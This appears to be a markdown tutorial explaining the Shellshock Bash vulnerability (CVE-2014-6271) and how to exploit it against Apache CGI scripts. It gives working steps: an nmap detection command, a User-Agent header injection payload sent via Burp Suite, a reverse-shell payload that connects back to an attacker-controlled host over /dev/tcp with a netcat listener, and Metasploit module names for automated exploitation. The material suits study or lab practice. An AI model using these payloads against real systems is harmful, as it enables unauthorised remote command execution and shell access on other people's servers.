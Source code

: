 
### What is it ? 

- Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash in Linux based OS, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

- The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.

- Bash is a Unix shell that is part of the GNU project and is the default shell for most Linux distributions. Windows doesn't utilise Bash, as it isn't a Unix based OS.

### How does it work ?

- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: `() {:};.`

- This vulnerability only affects Linux as Windows does not use utilize Bash as it is not a `*Nix` based operating system.
 
- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.

- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client. 

### How to exploit ?

* In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.

* In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.

- Whenever a CGl script is executed, the web server will initiate a new process and run the CGI script with Bash.

- This vulnerability can be exploited both manually and automatically with the use of an `MSF` exploit module.

### Manual Exploitation

1. Use `ifconfig` to find the target IP address. The target is generally the IP after yours in the subnet.
2. Perform a `nmap` scan to check if the target is running a web server.
3. Check the source code of the website, see if it is running any `CGI` script.
4. If `CGI` script is found, then it means that the target is executing commands with bash.
5. Using `nmap` to find out if the target is vulnerable to `ShellShock` or not.
```
nmap -sV <target-ip> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
- The script arguments in this case are used to specify the CGI script we are testing.
- In this case, the CGI script is `gettime.cgi`.

6. If it is vulnerable, we can execute arbitrary commands by injecting malicious HTTP headers. We can  use `BurpSuite` to do this.
7. Open `BurpSuite` with default configurations.
8. Click Proxy, and make sure intercept is on, then click forward.
9. Reload the webpage `<target-ip>/gettime.cgi` and the request will be intercepted within the proxy.
10. Send the request to the repeater by right clicking.
11. Click on repeater and we'll now replace the User-Agent data with our malicious special characters, which will enable us to execute arbitrary commands. 
```
() { :; }; echo; echo; /bin/bash -c '<command>'
```
12. We can then click send, and it'll display the output of the command as a response.

### How to get a reverse shell manually ?

1. Use `netcat` to listen on a port.
```
nc -lnvp 1234
```
2. Open `BurpSuite` and replace the `User-Agent` with this-
```
() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<lhost>/1234 0>&1
```
3. Switch back to your netcat listener, and we should get a reverse shell.

### Automatic Exploitation

1. Start up `msfconsole`
2. Module to scan if the webserver is vulnerable.
```
use auxiliary/scanner/http/apache_mod_cgi_bash_env
```
3. Module for exploitation.
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```
4. Set `TARGETURI`. For example - `/gettime.cgi`
5. Run the exploit. This should provide us with a reverse shell.